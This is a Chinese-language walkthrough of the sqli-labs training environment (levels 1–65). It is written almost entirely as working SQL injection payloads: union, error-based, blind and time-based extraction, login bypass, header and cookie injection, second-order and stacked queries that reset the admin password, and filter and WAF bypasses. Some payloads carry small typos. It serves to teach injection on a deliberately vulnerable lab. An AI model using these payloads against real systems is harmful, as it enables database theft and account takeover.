

# SQL-labs

## 基础

### Less-1(基础注入)

**步骤1：找注入点**

检查SQL注入点。

```sql
?id=1'--+
```

**步骤2：确定字段数**

检查列数。（一共3列）

```sql
?id=1' order by 3 --+
```

**步骤3：确定回显位置**

爆库。SQL版本顺便也爆出来。

- 正常输入`?id=1`会返回一个用户信息，输入`-1`（不存在的ID）会让**前面的查询返回空结果**。
- `UNION`只有当第一个查询为空时，才会显示第二个查询的结果

```sql
?id=1' union select 1,database(),version()--+
```

**步骤4：获取表名**

爆表。

- 用 `group_concat()`把多个表名合并成一个字符串，因为回显位置有限，这样可以一次性看到所有表名。
- `information_schema.tables`表示该数据库下的`tables`表，点表示下一级。
- `where`后面是条件。

```sql
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
```

**步骤5：获取users表的列名**

寻找自己想要的信息。

- `information_schema.columns`表示该数据表下的数据，点表示下一级。

```sql
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```

**步骤6：获取数据**

```sql
?id=-1' union select 1,2,group_concat(username ,id , password) from users--+
```

### Less-2、Less-3、Less-4(闭合判断)

**Less-2**     测试注入发现，返回了语法错误。

```sql
?id=1'
```

尝试更改payload（本题为数字型，不需要加闭合）

```sql
?id=1 or 1=1 --+
```

剩下的与第一题一样。

- **数字运算测试法**

```sql
?id=2-1  -- 如果显示的是id=1的内容，就是数字型
?id=2-1  -- 如果显示id=2的内容，就是字符型
```

- **错误信息分析法**

```sql
?id=1\  -- 反斜杠
?id=1"  -- 双引号
?id=1)  -- 括号
?id=1') -- 组合
?id=1"))-- 组合
```

**Less-3**     字符型但带括号。闭合方式：`')`

**Less-4**     双引号字符型。闭合方式：`")`

### Less-5、Less-6(报错注入)

**Less-5**     基础报错注入

**报错注入原理：**输入后不显示回显结果只显示对错，明显的报错注入。*union select 失效*

- **核心函数**：`updatexml()` 或 `extractvalue()`

**长度限制**：报错只显示32位，超长要用`substr()`分段

```sql
?id=1' and updatexml(1,concat(0x7e,database()),1)--+
```

代码形象解释：

```sql
-- 正常：EXTRACTVALUE(xml, '/person/name')
-- 注入：EXTRACTVALUE(1, concat('~', database()))

-- 执行过程：
1. MySQL说：我来解析第二个参数作为XPath路径
2. 一看："~security" ← 这什么鬼路径？波浪号开头？
3. MySQL：语法错误！报错信息里把"~security"吐出来
4. 你：哈哈，数据库名叫security！
```

同理继续向下查询。爆表名。

```sql
?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1)--+
```

爆字段（注意：updatexml报错只显示32位左右，可能截断[citation:5]）

```sql
?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users')),1)--+
```

最后爆数据

```sql
?id=1' and updatexml(1,concat(0x7e,(select concat(username,':',password) from users limit 0,1)),1)--+
```

**Less-6**     单引号变双引号。剩下的与第五关一样。

### Less-7(布尔盲注过程)

**一、确认闭合**

```sql
?id=1'))--+
```

确定是布尔盲注。（页面只返回“是”、“否”、“错误”）

**二、确认列数(3列)**

```sql
?id=1')) order by 3--+
```

**三、使用布尔盲注**

```sql
?id=1')) and length(database())=8--+
```

库名长度为8

```sql
?id=1')) and ascii(substr(database(),1,1))=115--+
?id=1')) and ascii(substr(database(),2,1))=101--+
```

库名第一个字母是s,第二个字母是e。继续向下得出库名为 `security`

```sql
?id=1')) and (select count(table_name) from information_schema.tables where table_schema='security')=4--+
```

获取到表的数量有4个

```sql
?id=1')) and length(select table_name from information_schema.tables where table_schema='security' limit 0,1)=4--+
```

获取表名（先长度=6）

```sql
?id=1')) and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101--+
```

然后再注入出第一位，后面继续，直到注出来为止。（emails,referers,uagents,users）

```sql
?id=1')) and (select count(column_name) from information_schema.columns where table_name='users')=3--+
```

获取字段名（一共3个字段）。

```sql
?id=1')) and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=105--+
```

挨个字母进行测试。（最后是id,username,password）

```sql
?id=1')) and ascii(substr((select username from users limit 0,1),1,1))=68--+
```

获取数据（结果：1: Dumb:Dumb）

### Less-8(布尔盲注原理)

**第一步：找闭合（单引号）**     首先确定闭合

```sql
?id=1' and 1=1 --+  页面正常 (You are in...)
?id=1' and 1=2 --+  页面不正常 (没内容)
```

**第二步：猜数据库长度**

```sql
?id=1' and length(database())>5 --+  正常（说明>5）
?id=1' and length(database())>10 --+ 不显示（说明≤10）
?id=1' and length(database())=8 --+  正常（说明=8）
```

**第三步：猜数据库名字符（ASCII码）**

- ```sql
  substr(database(), 1, 1)
     ↑         ↑     ↑  ↑
  截取字符串 数据库名 从第1个字符 取1个
  ```

  ```sql
  ascii('a') = 97 -- ascii()把字符转成数字
  ```

```sql
-- 第一个字符
?id=1' and ascii(substr(database(),1,1))>100 --+  正常
?id=1' and ascii(substr(database(),1,1))>110 --+  不显示
?id=1' and ascii(substr(database(),1,1))=115 --+  正常 → 115是's'

-- 第二个字符
?id=1' and ascii(substr(database(),2,1))=101 --+  正常 → 101是'e'

以此类推，拼出：security
```

**第四步：试出表名**

```sql
from information_schema.tables
     ↑
这个表存着所有数据库的表信息

where table_schema='security'
     ↑
只拿security数据库的表

select table_name
     ↑
只要表名这一列

limit 0,1
   ↑  ↑
从第0个开始 拿1个（就是第一个表）

-- 合起来
(select table_name 
 from information_schema.tables 
 where table_schema='security' 
 limit 0,1)
```

**翻译成人话**："从系统的表信息里，找到security数据库的第一个表名"

**获取表名长度**

```sql
-- 问：第一个表名的长度是多少？
?id=1' and length(
    (select table_name 
     from information_schema.tables 
     where table_schema='security' 
     limit 0,1)
) = 6 --+
  ↑
等于6吗？
```

**获取表名字符**

```sql
-- 问：第一个表名的第一个字符是'e'吗？
?id=1' and ascii(substr(
    (select table_name 
     from information_schema.tables 
     where table_schema='security' 
     limit 0,1)
,1,1)) = 101 --+
```

```sql
-- 1. 先数一下有几个表
?id=1' and (select count(table_name) from information_schema.tables where table_schema='security')=4 --+
-- 页面正常，说明有4个表

-- 2. 试第一个表的长度
?id=1' and length((select table_name from information_schema.tables where table_schema='security' limit 0,1))=6 --+
-- 页面正常，第一个表名长度=6（是"emails"）

-- 3. 试第一个表的第一个字符
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101 --+
-- 101='e'，正常，第一个字符是e

-- 4. 第二个字符...
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),2,1))=109 --+
-- 109='m'，正常

-- 最终拼出：emails
-- 然后继续limit 1,1拿第二个表：referers...
```

**第五步：试出字段名**

```sql
-- 1. 先数users表有几个字段
?id=1' and (select count(column_name) from information_schema.columns where table_name='users')=3 --+
-- 正常，有3个字段

-- 2. 试第一个字段的长度
?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))=2 --+
-- 正常，第一个字段长度=2（是"id"）

-- 3. 试第一个字段的第一个字符
?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=105 --+
-- 105='i'，正常

-- 4. 第二个字段...
```

**第三步：试出数据（最慢的部分）**

```sql
(select username from users limit 0,1)

from users
  ↑
从users表

select username
     ↑
拿username这一列

limit 0,1
     ↑
第一条数据
```

```sql
-- 1. 先数有几条数据
?id=1' and (select count(*) from users)=13 --+
-- 正常，13条

-- 2. 试第一条数据的用户名长度
?id=1' and length((select username from users limit 0,1))=4 --+
-- 正常，第一个用户名"Dumb"长度=4

-- 3. 试第一个用户名的第一个字符
?id=1' and ascii(substr((select username from users limit 0,1),1,1))=68 --+
-- 68='D'，正常

-- 4. 试第一个用户名的第二个字符...
?id=1' and ascii(substr((select username from users limit 0,1),2,1))=117 --+
-- 117='u'，正常

-- 5. 试出用户名后，试密码...
-- 6. 然后第二条数据...
```

### Less-9、Less-10(时间盲注)

**Less-9**

- 其实就是布尔盲注外面套了个`if(xxx, sleep, 1)`

```sql
布尔盲注
and ascii(substr(database(),1,1))=115
     ↑
   条件成立 → 页面正常
   条件不成立 → 页面空白
时间盲注
and if(ascii(substr(database(),1,1))=115, sleep(5), 1)
     ↑                                    ↑         ↑
   条件成立？                         是→睡5秒 否→立即返回1
```

**注意测试闭合也要用`if(xxx, sleep, 1)`**

```sql
?id=1 and sleep(5) --+
?id=1' and sleep(5) --+
?id=1" and sleep(5) --+
?id=1) and sleep(5) --+
?id=1')) and sleep(5) --+
```

```sql
?id=1' and if(1=1,sleep(5),1)--+
判断参数构造。
?id=1'and if(length((select database()))>9,sleep(5),1)--+
判断数据库名长度

?id=1'and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
逐一判断数据库字符
?id=1'and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
判断所有表名长度

?id=1'and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
逐一判断表名
?id=1'and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+
判断所有字段名的长度

?id=1'and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
逐一判断字段名。
?id=1' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+
判断字段内容长度

?id=1' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+
逐一检测内容。
```

**Lesss-10**     和第九关一样只需要将单引号换成双引号。

### Less-11(POST注入)

#### `#`和`--+`使用场景

- 在POST请求中（表单数据），``+` 就是 `+` → `--+` → 注释不生效。

- 在POST中用 `#`，`#` 不需要空格，直接生效。

**不过，在URL中（GET请求），`--+` 比敲 `#` 简单，不用考虑编码**

- `#` 在URL中是**锚点标记**
- 浏览器会把 `#` 后面的内容**不发送给服务器**！

*举个例子*

你输入：

```txt
http://site.com/?id=1' #
```

浏览器只发送：

```txt
http://site.com/?id=1'
```

`#` 后面的内容丢了！

| 场景              | 推荐注释 | 原因                   |
| ----------------- | -------- | ---------------------- |
| GET请求（地址栏） | `--+`    | `#`会被浏览器截断      |
| POST请求（表单）  | `#`      | `--+`的`+`不会转成空格 |
| 用Burp/sqlmap     | 随便     | 工具会自动处理         |

#### POST登录不用输密码就能登录

后台SQL原本样子：

```sql
SELECT * FROM users WHERE username='$uname' AND password='$passwd'
```

SQL注入后：

```sql
username='admin' or 1=1 #' AND password=''
                        ↑
                       #注释符让后面的代码失效
```

`1=1` 永远为真，所以整个条件永远为真，返回**所有用户**！

#### Less-11

首先验证闭合。

```sql
Username: 1' or 1=1#
Password:
回显：Dumb/Dumb
```

单引号闭合`'`，然后`union select`查询，剩下的就与第一关一样了。

```sql
Username: -1' union select 1,database()--+
Password:
回显：1/security
```

### Less-12、Less-13、Less-14(闭合)

| 关卡   | 闭合 | 万能密码          |
| ------ | ---- | ----------------- |
| 第11关 | `'`  | `admin' or 1=1#`  |
| 第12关 | `")` | `admin") or 1=1#` |
| 第13关 | `')` | `admin') or 1=1#` |
| 第14关 | `"`  | `admin" or 1=1#`  |

### Less-15、Less-16(布尔盲注)

不产生报错信息，明显的布尔盲注。

```sql
Username: 1' or 1=1#
Password:
回显：success
---
Username: 1' and 1=2#
Password:
回显：failed
```

Less-15闭合是`'`，less-16闭合是`")`。其他正常盲注即可。

### Less-17(密码重置)

#### 寻找注入点

**方法一：**

输入`'`观察报错。

```sql
用户名: admin'
密码: 1
```

如果报错在用户名→ 说明用户名在WHERE子句（后面）

如果报错在密码→ 说明密码在SET子句（前面）

**方法二：**

先试用户名注入：

```sql
用户名: admin' and 1=1#
密码: 1
```

再试密码注入：

```sql
用户名: admin
密码: 1' and 1=1#
```

#### 用户名一定写

Less-17即使用户名在后面也要写。

*打个比方：*

就像你要给朋友家换锁：

- **用户名不存在**：找错房子，锁没换成，你放的"东西"也没机会起作用
- **用户名存在**：找对房子，开始换锁，趁机在换锁过程中搞点"小动作"

而`or 1=1`一般不能在网络渗透中使用。

- **影响太大**。如果users表有100个用户，`or 1=1`这一下就改了100个人的密码。
- **容易被发现**。日志里看到批量修改，多个用户同时无法登录，管理员马上知道被攻击了

#### 不能同时查询和更新同一个表

错误写法：

```sql
User Name: admin
New Password: 1' and updatexml(1,concat(0x7e,(select concat(username,':',password) from users limit 0,1)),1)#
```

**解决方法：用子查询嵌套一层**

```sql
1' and updatexml(1,concat(0x7e,
    (select concat(username,':',password) from 
        (select username,password from users limit 0,1) tmp
    )
),1)#
回显：XPATH syntax error:'~Dumb:1'
```

##### Less-17

```sql
Username: admin'
Password: admin
回显：错误
---
Username: admin
Password: admin'
回显：successfully
```

明显密码是注入点，确认闭合。

```sql
Username: admin
Password: admin' or 1=1#
回显：successfully
```

爆数据库名

```sql
1' and updatexml(1,concat(0x7e,database()),1)#
```

爆表名

```sql
1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1)#
```

爆字段名

```sql
1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users')),1)#
```

但是数据这里不能像正常报错注入那样爆。**不能同时查询和更新同一个表**，用子查询嵌套一层

```sql
1' and updatexml(1,concat(0x7e,
    (select concat(username,':',password) from 
        (select username,password from users limit 0,1) tmp
    )
),1)#
```

### Less-18(HTTP头User-Agent注入)

**关键**：用户名密码被过滤了，但***User-Agent没过滤***！

```http
POST /sql/Less-18/ HTTP/1.1
......
Upgrade-Insecure-Recruests: 1
User-Agent:',1,updatexml(1,concat(0x7e,database()),1))#
```

**必须先登录**，后面的就是基于HTTP头的`User-Agent`报错注入。

### Less-19(HTTP头Referer注入)

***注入点：Referer头***

```http
POST /sql/Less-19/ HTTP/1.1
......
Referer: http: //127.0.0.1/sq1/Less-19/',updatexml(1,concat0x7e,database()),1))#
```

**Referer头不能为空**，保留前面的URL部分后面的就是基于HTTP头的`Referer`报错注入。

### Less-20(HTTP头cookie注入)

提交表单后会发现还有一个包被放出来。拦截这个包，这里面有cookie。于是进行基于HTTP头的cookie报错注入。

```http
POST /sql/Less-20/ HTTP/1.1
......
Cookie: uname=admin' and updatexml(1,concat(0x7e,database()),1)#; PHPSESSID=lesqfe3paefvci180fv0lpgn8h
```

**cookie头不能为空**，保留前面的admin后面的就是基于HTTP头的`cookie`报错注入。

### Less-21、Less-22(HTTP头加密注入)

**Less-21**（单引号加括号闭合）

这题跟上一题差不多，只是cookie加密了（base64加密）。

对payload加密。

```http
POST /sql/Less-21/ HTTP/1.1
......
Cookie: uname=YWRtaW4nIGFuZCB1cGRhdGV4bWwoMSxjb25jYXQoMHg3ZSxkYXRhYmFzZSgpKSwxKSM=原码:admin' and updatexml(1,concat(0x7e,database()),1)#; PHPSESSID=lesqfe3paefvci180fv0lpgn8h
```

**Less-22**（双引号闭合）

```sql
admin" and updatexml(1,concat(0x7e,database()),1)#再base64加密
```

## 进阶

### Less-23(过滤注释符)

第23关跟前22关不一样，它**过滤了 `--+` 和 `#` 注释符**！

```sql
?id=1' and '1'='1
```

看似一切回到了Less-1，实则需要考虑后端闭合了。

但是尝试注入时发现，联合注入没有回显位置。只能用报错注入。

```sql
?id=1' and updatexml(1,concat(0x7e,database()),1) and '1'='1
```

***关键点***

| 要点           | 说明                         |
| :------------- | :--------------------------- |
| **闭合方式**   | `'`                          |
| **不用注释符** | 用 `and '1'='1` 闭合后面引号 |
| **注入方法**   | 报错注入（updatexml）        |
| **不能用的**   | UNION（无回显）              |

#### Less-24(二次注入)

- **二次注入：**==存入==恶意数据->数据库==藏雷==->调用时==程序读==出来拼SQL->==触发==注入

**注册的时候埋雷，改密码的时候炸。**先注册一个账号名叫`admin' #`。

```txt
Desired Username: admin'#
Password: 123
```

将有污染的数据写入数据库。单引号是为了和之后密码修的用户名的单引号进行闭合，#是为了注释后面的数据。

登入后**再**修改密码，这个时候修改`admin'#`密码修改的是真正的`admin`的密码。修改后退出登录再`admin`登录（密码是改过的）

- **改密码时**`admin'#`里的`#`会注释掉后面的条件，从而改掉`admin`的密码

### Less-25(过滤`and`和`or`)

第二十五关根据提示是将or和and这两个替换成空。大小写绕过没有用。但是可以采用双写绕过。本次关卡使用联合注入就可以了。

```sql
?id=1' oorrder by 3--+
?id=-1' union select 1,2,database() --+
?id=-2' union select 1,2,group_concat(table_name) from infoorrmation_schema.tables where table_schema='security'--+
```

### Less-26、Less-27、Less-28(过滤)

#### Less-26(逻辑运算符，注释符和空格)

测试输入发现逻辑运算符，注释符以及空格给过滤了。对于空格，有较多的方法绕过：

%09 TAB键（水平）                            %0a 新建一行                            %0c 新的一页                                                

%0d return功能                                   %0b TAB键（垂直）                 %a0 空格

() 括号

**方法1：报错注入（推荐，不用空格）**

```sql
-- 爆数据库名
?id=1'||updatexml(1,concat(0x7e,database()),1)||'1

-- 爆表名（注意information双写）
?id=1'||updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema)='security')),1)||'1

-- 爆字段名（and双写）
?id=1'||updatexml(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security'anandd(table_name='users'))),1)||'1

-- 爆数据（password双写）
?id=1'||updatexml(1,concat(0x7e,(select(group_concat(passwoorrd))from(users))),1)||'1
```

**方法2：联合查询（需要用%0a代替空格）**

```sql
-- 先找字段数
?id=1'%0aoorrder%0aby%0a3%0aand%0a'1'='1

-- 爆数据库名
?id=-1'%0aunion%0aselect%0a1,2,database()%0aand%0a'1'='1

-- 爆表名
?id=-1'%0aunion%0aselect%0a1,2,group_concat(table_name)%0afrom%0ainfoorrmation_schema.tables%0awhere%0atable_schema='security'%0aand%0a'1'='1
```

#### Less-26a(与26过滤一样)

**闭合方式**：26a是 `')` 闭合（带括号）。

有显示位，所以最快的方式是*联合注入*。也可以用*盲注*。但是不能用报错注入因为没有报错信息。

#### Less-27

和二十六差不多不过二十七关没有过滤`and`和`or`,过滤了`select`和`union`。可以大小写绕过以及重写绕过。这里直接报错注入。

```sql
?id=1'or(updatexml(1,concat(0x7e,database()),1))or'0
```

#### Less-27a

双引号闭合且页面不显示报错信息，过滤规则和二十七关一样。使用盲注和联合注入。

```sql
?id=0"uniunionon%0AseleSelectct%0A1,2,group_concat(column_name)from%0Ainformation_schema.columns%0Awhere%0Atable_schema='security'%0Aand%0Atable_name='users'%0Aand"1
```

#### Less-28(与27过滤一样)

闭合变成`')`，剩下的与27题一样

#### Less-28(与27a过滤一样)

闭合变成`')`，剩下的与27a题一样

### Less-29、Less-30、Less-31(双服务器)

**第29关**引入了**双服务器架构**和**HTTP参数污染（HPP）**的概念

- **前端服务器（Tomcat/JSP）**：充当WAF，只校验第一个参数，必须是数字
- **后端服务器（Apache/PHP）**：真正提供Web服务，处理最后一个参数

*双服务器: 利用前后端对同一个参数名的解析差异来绕过防护的一种攻击技术。*

*WAF: Web应用防火墙，Web Application Firewall*

**工作流程：**

1. 客户端请求先到Tomcat（WAF）
2. Tomcat只检查第一个参数（必须是数字）
3. 通过后，Tomcat把**整个查询字符串**传给Apache
4. Apache解析**最后一个参数**并执行SQL

- 在对参数值进行校验之前的提取时候只提取了第一个id值，如果我们有两个id参数，第一个id参数正常数字，第二个id参数进行sql注入。sql语句在接受相同参数时候接受的是后面的参数值。

```sql
?id=1&id=-1' union select 1,database(),3--+
```

**第30关**将29关的单引号换成双引号。

```sql
?id=1&id=-1" union select 1,database(),3--+
```

**第31关**将30关的双引号后面再加一个括号。

```sql
?id=1&id=-1") union select 1,database(),3--+
```

### Less-32、Less-33(宽字节注入)

**第32关**使用`preg_replace`函数将斜杠，单引号和双引号过滤了，如果输入`id=1"`会变成`id=1\"`。但是数据库使用了GBK编码，这里就可以采用宽字节注入。

*GBK: 国家标准扩展。占两个字节。*

向浏览器发送：`?id=%df'`

PHP 用 `addslashes()` 转义 —> 结果：`%df%5c%27`

```sql
?id=-1%df' union select 1,database(),3 --+
```

**第33关**与32关一样。检查函数换了但是效果一样。

#### Less-34

POST版的宽字节注入。

#### Less-35

数字型的宽字节注入。不需要引号闭合。主要影响在与后续爆字段时候需要用的表名加了引号，只需将**表名**换成**十六进制编码**就行。

```sql
?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name=0x7573657273--+   #爆字段
```

#### Less-36、Less-37

依然是宽字节注入，换了个函数。

| 关卡 | 过滤函数                     | 函数类型  | 是否依赖字符集 |
| :--- | :--------------------------- | :-------- | :------------- |
| 32关 | 自定义正则过滤               | 自定义    | 否             |
| 33关 | `addslashes()`               | PHP内置   | 否             |
| 36关 | `mysql_real_escape_string()` | MySQL专用 | **是**         |

`mysql_real_escape_string()`会根据**当前数据库连接的字符集**来智能转义特殊字符，只需将**表名**换成**十六进制编码**就行。

Less-36 以GET形式，Less-37 以POST形式。

## 高阶

### Less-38(堆叠注入)

堆叠注入就是可以执行多个语句的SQL注入。可以进行**增删改查**所有操作。

```sql
?id=1';show tables;--+
```

但是由于回显位置有限，所以不能显示表。任何注入方式都可以任意查询。

```sql
?id=-1' union select 1,2,database()--+
```

### Less-39、Less-40、Less-41

第三十九关id参数是整数，正常联合注入就行。` `

第四十关id参数是单引号加括号闭合，然后使用联合注入就可以了。`')`

第四十一关不能使用报错注入因为没有报错信息。其他注入都可以。id参数是整数。` `

### Less-42(POST堆叠)

- 第42关**结合了二次注入和堆叠注入**，而且注入点在**密码字段**。



**步骤1**：登录页面创建用户

```sql
login_user=1&login_password=1'; insert into users(username,password) values('less30','123456'); --+
```

**步骤2**：用新用户正常登录（不要注入）

```http
login_user=less30&login_password=123456
```

**步骤3**：进入改密码页面，在新密码处注入

```sql
new_password=hacked'; update users set password='hacker' where username='admin'; --+
```

**步骤4**：用 `admin/hacker` 登录验证

### Less-43、Less-44、Less-45

43关闭合方式：`')`

44关无报错，闭合方式：`'`

45关无报错，闭合方式：`')`

### Less-46(ORDER BY注入)

第46关和前面的关卡完全不同——注入点在**`ORDER BY`子句**里！

**ORDER BY注入**特殊，需要用**布尔盲注**或**报错注入**。可以用`and`、`into`等特殊语法

```sql
?sort=1 and 1--+
```

**用报错注入（有回显）**

```sql
-- 爆数据库名
?sort=1 and updatexml(1,concat(0x7e,database()),1)

-- 爆表名
?sort=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1)

-- 爆字段名
?sort=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users')),1)

-- 爆数据
?sort=1 and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1)),1)
```

### Less-47、Less-48、Less-49

Less-47和46关差不多，多了一个`'`闭合，可以使用报错注入

Less-48没有报错显示，只能盲注。没有闭合。

*如果为真，按id排序；为假，按其他方式排序。*但是页面内容几乎没变，所以只能用时间盲注了。

Less-49也没有报错显示，同样不能用布尔盲注只能用时间盲注。闭合是`'`。

### Less-50、Less-51、Less-52、Less-53

第50关可以使用updatexml进行报错注入，不过这个里面还可以使用堆叠注入，因为使用了mysqli_multi_query函数，支持多条sql语句执行。也可以盲注。

51关`'`闭合，可以报错注入，可以堆叠注入，可以盲注。

52关没有闭合，且没有报错显示，只能堆叠注入或者盲注。

53关是字符型，`'`闭合，没有报错显示，可以使用堆叠注入和盲注。

## 挑战

### Less-54(联合注入挑战)

只有十次输入机会，超过十次所有表名，列名，等等都会随机重置。

**人话：在10次内获取所有信息**

请求次数：1（确认字段数=3）

```sql
?id=1' order by 3--+
```

请求次数：2（确认显示位）

```sql
?id=-1' union select 1,2,3--+
```

请求次数：3（数据库名、表名）

```sql
?id=-1' union select 1,2,concat_ws('|',database(),(select group_concat(table_name) from information_schema.tables where table_schema=database()))--+
```

请求次数：4（爆列名）

```sql
?id=-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='表名'--+
```

请求次数：5（爆key名）

```sql
?id=-1'union select 1,group_concat(列名),3 from 表名--+
```

#### Less-55

与54关类似，id参数是加了括号的整数`)`。

```sql
?id=-1) union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+爆表名
```

#### Less-56

与54、55关类似，只是**闭合方式**变成了单引号+括号 `')`。

#### Less-57

与54~56关类似，只是**闭合方式**变成了双引号 `"`。

#### Less-58(报错注入挑战)

**在5次内获取所有信息**

请求次数：1（爆表名）

```sql
?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
```

请求次数：2（爆列名）

```sql
?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='表名'),0x7e),1)--+
```

请求次数：3（爆key名）

```sql
?id=1' and updatexml(1,concat(0x7e,(select group_concat(secret_VETJ) from challenges.p7xb809nvh),0x7e),1)--+
```

#### Less-59

与58关类似，id是整数型。

#### Less-60

与54、55关类似，只是**闭合方式**变成了双引号+括号 `")`。

#### Less-61

与54~56关类似，只是**闭合方式**变成了单引号+两个括号 `'))`。

#### Less-62(盲注挑战)

**在130次内获取所有信息**

62关没有报错显示，可以使用布尔盲注和时间注入。id参数是单引号+括号`')`。

#### Less-63

与62关类似，只是**闭合方式**变成了单引号`'`。

#### Less-64

与62、63关类似，只是**闭合方式**变成了双引号+括号 `")`。

#### Less-65

与62~64关类似，id是整数型。